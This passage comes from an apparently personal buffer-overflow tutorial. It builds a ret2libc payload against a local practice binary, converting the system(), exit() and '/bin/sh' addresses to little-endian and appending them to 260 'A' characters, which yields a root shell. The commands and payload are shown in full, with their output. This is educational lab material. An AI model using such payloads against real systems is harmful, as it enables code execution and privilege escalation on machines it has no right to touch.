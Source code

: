     th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  raddr -a 0xf7e2c540
    \x40\xc5\xe2\xf7

Reverse "/bin/sh" string address

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  raddr -a 0xf7f5523e
    \x3e\x52\xf5\xf7

And for the return address, we can use anything for the time being.

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master 
    ⇒   raddr -a 0xdeadc0de
    \xde\xc0\xad\xd

We modify the command we ran earlier, adding the reversed addresses onto the end
of the payload.

    #
    # [      260 x "A" characters      ][  system() address  ][ random address ][ '/bin/sh' address ]
    #
    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  bin/sof $(perl -e 'print "A" x 260 . "\x40\xc5\xe2\xf7" . "\xde\xc0\xad\xde" . "\x3e\x52\xf5\xf7"')
    @sh-4.4# whoami
    root
    @sh-4.4# exit
    exit
    [1]    9121 segmentation fault  bin/sof

We successfully overflow the buffer, call system with '/bin/sh' as the first
arg, and get a shell. This works even despite the fact that when we exit from
the shell, we get a segmentation fault. There is a way to exit the shell cleanly
without triggering a segfault. What we can do instead of using 0xdeadbeef for
our return address is use the `exit` system call address instead. Doing so
should give us a clean exit.

    @gef➤  p exit
    $2 = {<text variable, no debug info>} 0xf7e1e8f0 <__GI_exit>

    @gef➤  q

Reverse exit's address

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master 
    ⇒  raddr -a 0xf7e1e8f0 
    \xf0\xe8\xe1\xf7

And now replace the invalid return address with it in our payload.

    #
    # [      260 x "A" characters      ][  system() address  ][ exit() address ][ '/bin/sh' address ]
    #
    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  bin/sof $(perl -e 'print "A" x 260 . "\x40\xc5\xe2\xf7" . "\xf0\xe8\xe1\xf7" . "\x3e\x52\xf5\xf7"')
    @sh-4.4# whoami
    root
    @sh-4.4# exit
    exit
    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒
